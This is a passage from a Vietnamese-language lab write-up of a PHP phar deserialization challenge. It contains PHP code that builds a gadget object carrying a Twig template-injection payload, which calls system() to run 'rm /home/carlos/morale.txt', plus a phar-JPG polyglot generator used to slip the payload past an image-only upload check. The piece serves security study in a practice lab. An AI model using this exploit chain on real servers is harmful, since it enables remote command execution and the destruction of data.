 ### Khai thác

Kết hợp (1) và (2), ta tạo 1 CustomTemplate object với thuộc tính template_file_path là 1 instance Blog. Trong đó, $blog->desc sẽ là SSTI payload để xóa file morale.txt.

```php!
class CustomTemplate {}
class Blog {}
$object = new CustomTemplate;
$blog = new Blog;
$blog->desc = "{{_self.env.registerUndefinedFilterCallback('system')}}{{_self.env.getFilter('rm /home/carlos/morale.txt')}}";
$blog->user = 'user';
$object->template_file_path = $blog;
```

Và vì server chỉ chấp jpg, nên ta sử dụng phương pháp phar jpg polygot với script như sau (Nguồn https://github.com/kunte0/phar-jpg-polyglot):

```php!
<?php


function generate_base_phar($o, $prefix)
{
    global $tempname;
    @unlink($tempname);
    $phar = new Phar($tempname);
    $phar->startBuffering();
    $phar->addFromString("test.txt", "test");
    $phar->setStub("$prefix<?php __HALT_COMPILER(); ?>");
    $phar->setMetadata($o);
    $phar->stopBuffering();

    $basecontent = file_get_contents($tempname);
    @unlink($tempname);
    return $basecontent;
}

function generate_polyglot($phar, $jpeg)
{
    $phar = substr($phar, 6); // remove <?php dosent work with prefix
    $len = strlen($phar) + 2; // fixed
    $new = substr($jpeg, 0, 2) . "\xff\xfe" . chr(($len >> 8) & 0xff) . chr($len & 0xff) . $phar . substr($jpeg, 2);
    $contents = substr($new, 0, 148) . "        " . substr($new, 156);

    // calc tar checksum
    $chksum = 0;
    for ($i = 0; $i < 512; $i++) {
        $chksum += ord(substr($contents, $i, 1));
    }
    // embed checksum
    $oct = sprintf("%07o", $chksum);
    $contents = substr($contents, 0, 148) . $oct . substr($contents, 155);
    return $contents;
}


// // pop exploit class
// class PHPObjectInjection
// {
// }
// $object = new PHPObjectInjection;
// $object->inject = 'system("id");';
```